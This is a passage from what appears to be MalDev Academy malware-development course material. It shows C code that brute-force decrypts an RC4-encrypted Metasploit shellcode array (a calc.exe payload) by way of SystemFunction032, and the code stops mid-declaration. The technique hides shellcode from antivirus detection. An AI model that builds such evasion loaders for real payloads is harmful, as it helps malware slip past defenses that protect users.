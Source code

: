 The output is shown in the image below.

[![](78%20MalDev%20Academy%20Tool%20-%20KeyGuard%209ed61e52dac94108a2301370dbefb62a/keyguard-216006045-84544960-079a-4c5c-9ac0-c4e31ba80dbc.png)](78%20MalDev%20Academy%20Tool%20-%20KeyGuard%209ed61e52dac94108a2301370dbefb62a/keyguard-216006045-84544960-079a-4c5c-9ac0-c4e31ba80dbc.png)### **Example - RC4 Decryption**

The code below will decrypt the RC4 encrypted payload using the brute force method. The key is encrypted using the KeyGuard tool.


```
#include <Windows.h>#include <stdio.h>// Encrypted x64 calc metasploit shellcode
unsigned char Rc4EncryptedPayload[] = {
        0x44, 0x3C, 0x18, 0x73, 0xCA, 0x86, 0x68, 0x08, 0xBC, 0xCD, 0x2D, 0x59, 0x39, 0x22, 0x3C, 0xFF,
        0x6A, 0x87, 0xA0, 0xF9, 0x69, 0xB4, 0x49, 0x95, 0x3A, 0xF7, 0x79, 0x24, 0x57, 0x7D, 0xC6, 0x31,
        0xD1, 0xB4, 0x68, 0xC7, 0x5D, 0x88, 0xFF, 0x90, 0x2C, 0x1A, 0xB3, 0xB3, 0xB3, 0xD5, 0x8E, 0xD0,
        0x31, 0x8C, 0x11, 0x1E, 0x51, 0x12, 0xC6, 0x32, 0x27, 0x8F, 0x34, 0x56, 0x49, 0x15, 0xBE, 0xE9,
        0xDB, 0xA9, 0xD7, 0x44, 0x66, 0x87, 0x79, 0x07, 0x94, 0x04, 0xB0, 0x74, 0x96, 0x4A, 0x09, 0x3B,
        0xAA, 0xBF, 0xEE, 0x0D, 0xEC, 0x2D, 0x6B, 0xD9, 0x01, 0xCE, 0xBE, 0x4D, 0xA9, 0x3C, 0x78, 0x93,
        0x62, 0xFE, 0x5E, 0x69, 0x47, 0x54, 0xAE, 0xD1, 0x0F, 0xC3, 0xAF, 0xA6, 0xE8, 0xF2, 0xFA, 0x02,
        0x08, 0xD8, 0xDA, 0x42, 0xD7, 0x62, 0x31, 0xC8, 0x1E, 0x5E, 0x11, 0x2A, 0xB0, 0x82, 0xB5, 0x0B,
        0x15, 0xC3, 0x36, 0xD2, 0x36, 0xA8, 0x1B, 0x88, 0x2C, 0x3F, 0x4D, 0xDE, 0x5F, 0x19, 0x17, 0xF6,
        0xE8, 0x30, 0x16, 0x6C, 0x64, 0x7B, 0x5E, 0xD4, 0x45, 0x93, 0x76, 0x47, 0x86, 0xE2, 0x19, 0xEA,
        0x62, 0x64, 0x17, 0xBE, 0x0A, 0x0D, 0x66, 0xF9, 0x3A, 0xB7, 0xD0, 0xFD, 0xE4, 0x90, 0xA5, 0xB1,
        0x04, 0xAD, 0x6E, 0x9E, 0xA6, 0x81, 0xFC, 0xBA, 0x08, 0x30, 0x56, 0x86, 0x34, 0xC3, 0xE6, 0x2D,
        0xA3, 0x90, 0x93, 0x13, 0xD7, 0xD3, 0x7D, 0x0C, 0xCB, 0x6F, 0xA4, 0xE0, 0xAA, 0x19, 0x77, 0x4F,
        0xB6, 0x2A, 0xEA, 0xA0, 0xDD, 0x0C, 0x57, 0x1F, 0x93, 0x08, 0x0D, 0x1B, 0x29, 0x79, 0x62, 0x00,
        0xCC, 0xE3, 0x6B, 0xF2, 0xD6, 0x71, 0xC6, 0x80, 0x0A, 0x4B, 0x68, 0xD1, 0xBA, 0xDC, 0x86, 0x8D,
        0x3C, 0x6E, 0xAA, 0xAC, 0xBE, 0x3E, 0x66, 0xD9, 0x2E, 0x94, 0x8C, 0x71, 0x00, 0x94, 0x13, 0xE2,
        0xCC, 0xDF, 0x98, 0x32, 0xD7, 0x9D, 0x5B, 0xAD, 0xFB, 0x21, 0x6A, 0xF4, 0x88, 0x16, 0x0B, 0xEF };


// The following code is from (RC4 payload encryption - basic module)

// This is what SystemFunction032 function take as a parameter
typedef struct
{
	DWORD	Length;
	DWORD	MaximumLength;
	PVOID	Buffer;

} USTRING;


// Defining how does the function look - more on this structure in the api hashing part
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
	struct USTRING* Data,
	struct USTRING* Key
```